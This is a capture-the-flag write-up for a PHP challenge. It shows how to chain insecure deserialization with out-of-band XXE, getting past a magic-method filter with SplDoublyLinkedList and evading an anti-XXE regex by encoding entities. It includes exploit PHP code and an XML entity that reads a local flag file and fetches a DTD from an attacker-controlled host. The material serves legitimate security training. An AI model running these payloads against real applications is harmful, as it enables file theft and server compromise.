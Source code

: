 ## WAFfle-y Order - Medium (PHP)

After downloading the necessary files for the challenge you will see the following tree
```
 - assets ( JS and CSS Files useless )
 - controllers ( Our Back-end )
 - models ( Our Object Definitions )
 - views ( Our pages / routes)
 index.php
 Router.php
```
When looking at PHP files we start with the Controllers since it is the back-end

**OrderController.php**
```php
<?php
function safe_object($serialized_data)
{
    $matches = [];
    $num_matches = preg_match_all('/(^|;)O:\d+:"([^"]+)"/', $serialized_data, $matches);

    for ($i = 0; $i < $num_matches; $i++) {
        $methods = get_class_methods($matches[2][$i]);
        foreach ($methods as $method) {
            if (preg_match('/^__.*$/', $method) != 0) {
                die("Unsafe method: ${method}");
            }
        }
    }
}

class OrderController
{
    public function order($router)
    {
        $body = file_get_contents('php://input');
        $cookie = base64_decode($_COOKIE['PHPSESSID']);
        safe_object($cookie);
        $user = unserialize($cookie); // unserialize a user-controlled string <- Our Injection Point

        if ($_SERVER['HTTP_CONTENT_TYPE'] === 'application/json')
        {
            $order = json_decode($body);
            if (!$order->food) 
                return json_encode([
                    'status' => 'danger',
                    'message' => 'You need to select a food option first'
                ]);
            if ($_ENV['debug'])
            {
                $date = date('d-m-Y G:i:s');
                file_put_contents('/tmp/orders.log', "[${date}] ${body} by {$user->username}\n", FILE_APPEND);
            }
            return json_encode([
                'status' => 'success',
                'message' => "Hello {$user->username}, your {$order->food} order has been submitted successfully."
            ]);
        }
        else
        {
            return $router->abort(400);
        }
    }
}
```

By decoding `PHPSESSID` cookie we get `O:9:"UserModel":1:{s:8:"username";s:10:"guest_618a";}` so you've guessed it already we are trying to look for Insecure Deserialization
start building your payload i won't explain how insecure deserialization works look it up.

![image](https://user-images.githubusercontent.com/32434709/140926451-397c2998-103d-43c4-8013-6b09e222c0a7.png)

So you've already got stuck so let's check out the filters
```php
<?php
function safe_object($serialized_data)
{
    $matches = [];
    $num_matches = preg_match_all('/(^|;)O:\d+:"([^"]+)"/', $serialized_data, $matches);

    for ($i = 0; $i < $num_matches; $i++) {
        $methods = get_class_methods($matches[2][$i]);
        foreach ($methods as $method) {
            if (preg_match('/^__.*$/', $method) != 0) {
                die("Unsafe method: ${method}");
            }
        }
    }
}
```
The `safe_object` function checks out your Serialized Object using Regex 
which validates the classes you are using like `O:9:"UserModel";O:14:"XMLParserModel"` and runs a `get_class_methods` function on each Class to check if it has a magic method.
Since Insecure Deserialization needs a Magic method ( starts with `__` ) we need to bypass this filter but how?

![image](https://user-images.githubusercontent.com/32434709/140927560-29a435b1-7b34-4872-abe7-bd1a4aa3cd8b.png)

We need PHP classes implementing `Serializable` interface which in our challenge here our most important class is `SplDoublyLinkedList`

**C code of how SplDoublyLinkedList handles serialization**
```c
    /* flags */
    ZVAL_LONG(&flags, intern->flags);
    php_var_serialize(&buf, &flags, &var_hash);

    /* elements */
    while (current) {
        smart_str_appendc(&buf, ':');
        next = current->next;

        php_var_serialize(&buf, &current->data, &var_hash);

        current = next;
    }
```
After building your payload it will be something like this
```php
<?php
class XmlParserModel
{
    public $data;
    public $env;
}
class UserModel
{
    public $username;
    public $dll;
}

$tp = new XmlParserModel();
$tp->data = ''; // XXE Code
$tp->env = [];

$omar = new UserModel;
$omar->username = "omar";
$omar->dll = new SplDoublyLinkedList();
$omar->dll->push($tp);

echo base64_encode(serialize($omar));
```
```xml
<!ENTITY flag SYSTEM "file:///flag"><!ENTITY % dtd SYSTEM "http://myvps/exploit.dtd" >
```
Run the challenge locally to check out the errors, after being able to run XMLParserModel and bypassing the `safe_object` function we hit another error
`Unsafe XML`. Hmmm let's search for that in our source code
```php
if (preg_match_all("/<!(?:DOCTYPE|ENTITY)(?:\s|%|&#[0-9]+;|&#x[0-9a-fA-F]+;)+[^\s]+\s+(?:SYSTEM|PUBLIC)\s+[\'\"]/im", $this->data))
{
  die('Unsafe XML');
}
```
This regex searches for XXE Payloads so you can't just read the flag and send it to your server so how can we bypass that, wait did you know we can use HTML Entities in XML? 
let's try it out then
```php
<?php
class XmlParserModel
{
    public $data;
    public $env;
}
class UserModel
{
    public $username;
    public $dll;
}

$tp = new XmlParserModel();
$tp->data = ''; // XXE Code try encoding it yourself simple OOB XXE with ENTITY encoded
$tp->env = [];

$omar = new UserModel;
$omar->username = "omar";
$omar->dll = new SplDoublyLinkedList();
$omar->dll->push($tp);

echo base64_encode(serialize($omar));
```
and thats it bypassing 2 filters and chaining insecure deserialization with XXE simple but time consuming.
